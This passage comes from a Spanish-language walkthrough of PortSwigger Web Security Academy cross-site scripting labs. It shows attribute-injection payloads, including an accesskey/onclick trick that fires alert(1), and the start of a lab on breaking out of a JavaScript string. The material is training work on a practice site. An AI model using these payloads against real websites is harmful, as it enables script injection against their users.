 ![](img34.png)

Entonces ideamos un payload para generar un alert.

```
' ><h1>a
```

![](img35.png)

Al parecer no podemos usar los caracteres **< >** entonces debemos seguir en el mismo tag, para ello pensamos el siguiente payload.

```
'onload='alert(1)
```

![](img36.png)

Pero, no genera ningun alert, lo que haremos será crear un argumento de accion como **onclick** y luego lo llamamos con **accesskey**.

```
'accesskey='x'onclick='alert(1)
```

![](img37.png)

Entonces para ejecutar el alert realizamos cualquiera de las conbinaciones de teclas que nos recomiendan. **(ALT+SHIFT+X)**

![](img38.png)

## 13. Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped

```
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.
```

URL

```
https://ac381fa71fb08026809a014b003200b6.web-security-academy.net/?search=aaa
```

Respuesta

```
<script>
    var searchTerms = 'aaa'; 
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```
